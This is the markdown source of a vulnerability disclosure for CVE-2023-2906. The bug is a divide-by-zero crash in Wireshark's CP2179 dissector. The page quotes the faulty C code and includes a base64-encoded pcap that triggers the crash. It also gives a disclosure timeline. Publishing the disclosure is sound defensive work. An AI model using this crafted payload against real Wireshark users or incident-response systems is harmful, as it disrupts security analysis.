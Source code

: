 ```yaml
---
layout: default
title: CVE-2023-2906
categories: nav
showinnav: false
---
```


# CVE-2023-2906: Wireshark CP2179 Parsing Divide By Zero DoS

[AHA!] has discovered a deinal-of-service issue with [Wireshark] from The Wireshark Foundation, and is issuing this disclosure in accordance with AHA!'s standard [disclosure policy] today, on Thursday, August 24, 2023. [CVE-2023-2906] has been assigned to this issue.

Any questions about this disclosure should be directed to **cve@takeonme.org**.

# Executive Summary

Due to a failure in validating the length provided by an attacker-crafted CP2179 packet, Wireshark versions 2.0.0 through 4.0.7 is susceptible to a divide by zero allowing for a denial of service attack. [CVE-2023-2906] appears to be an instance of [CWE-369]. Note that, according to the [patch notes](https://gitlab.com/wireshark/wireshark/-/issues/19229), this effect can only be achieved when a user triggers the vulnerable code patch with the "Decode As..." functionality of Wireshark (or the `-d` option for tshark), so this vulnerability is unlikely to be triggerable in an automated way.

# Technical Details

As can be seen in the below code from the `dissect_response_frame` function which handles parsing the different types of response frames as part of the SCADA protocol, [PG&E 2179 Protocol](https://library.e.abb.com/public/9cc84999c2239e1fc125795d003d05f8/RER620_PGE2179prot_306957_ENa.pdf).

When parsing a `TIMETAG_INFO_RESPONSE` message, a call is made to the Wireshark function `tvb_get_guint8()` (on line 723) which retrieves an 8 bit value from the pcap file. If a 0 value is provided within the `TIMETAG_INFO_RESPONSE` message for the value, a divide by zero error occurs (on line 724).

The relevant code snippet from `epan/dissectors/packet-cp2179.c` is:
```
 718                 case TIMETAG_INFO_RESPONSE:
 719                 {
 720                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_moredata, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 721                     proto_tree_add_item(cp2179_proto_tree, hf_cp2179_timetag_numsets, tvb, offset, 1, ENC_LITTLE_ENDIAN);
 722 
 723                     num_records = tvb_get_guint8(tvb, offset) & 0x7F;
 724                     recordsize = (numberofcharacters-1) / num_records;
 725                     num_values = (recordsize-6) / 2;      /* Determine how many 16-bit analog values are present in each event record */
 726 
 727                     offset += 1;
```

<br/>

# Payload

A base64-encoded blob containing the pcap needed to trigger the vulnerability is provided below:

```
1MOyoQIABAAAAAAAAAAAAP9/AAD6AAAAAAAAAAAAAAAMAAAADAAAAAMAAAADAAAAAAAAAAAAAAAA
AAAAFAAAABQAAAABAAAAAQAAAAEAAAD5/wAAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAMA
AAAAAAAAAAAAAAwAAAAMAAAAAwAAAAMAAAAAAAAAAAAAAAAAAAAVAAAAFQAAAAMAAAADAAAAAgAA
APn/BACAAAAAAAAAAAAAAAAADAAAAAwAAAADAAAAAwAAAAQAAAA=
```

<br/>

# Attacker Value

By providing this poisoned set of packets, an attacker could crash the application (Wireshark, tshark, or possibly a custom application utilizing libwireshark) preventing further analysis. Many security appliances capture packets as a matter of course for later analysis, and Wireshark is a common tool used by incident responders. This leads to situations where a specially crafted packet could be used to prevent best incident response practices from taking place.

# Credit

This issue is being disclosed through the AHA! CNA and is credited to: [zenofex](https://mastodon.social/@zenofex) and [WanderingGlitch](https://infosec.exchange/@WanderingGlitch)

# Timeline

* 2023-05-23 (Thu): Initial findings presented at AHA! Meeting 0x00c8
* 2023-07-08 (Sat): PoC validated and this disclosure drafted.
* 2023-07-17 (Mon): Disclosed to the vendor via email at security@wireshark.org (per the vendor [website](https://www.wireshark.org/security/)).
* 2023-07-23 (Sun): Vendor acknowledged the vulnerability in [issue 19229](https://gitlab.com/wireshark/wireshark/-/issues/19229).
* 2023-08-23 (Wed): Vendor released fixed version [4.0.8](https://www.wireshark.org/docs/relnotes/wireshark-4.0.8.html).
* 2023-08-24 (Thu): Public disclosure of [CVE-2023-2906].

<br/>

----

[CVE-2023-2906]: https://takeonme.org/cves/CVE-2023-2906.html
[CWE-369]: https://cwe.mitre.org/data/definitions/369.html
[disclosure policy]: https://takeonme.org/cve.html
[AHA!]: https://takeonme.org/
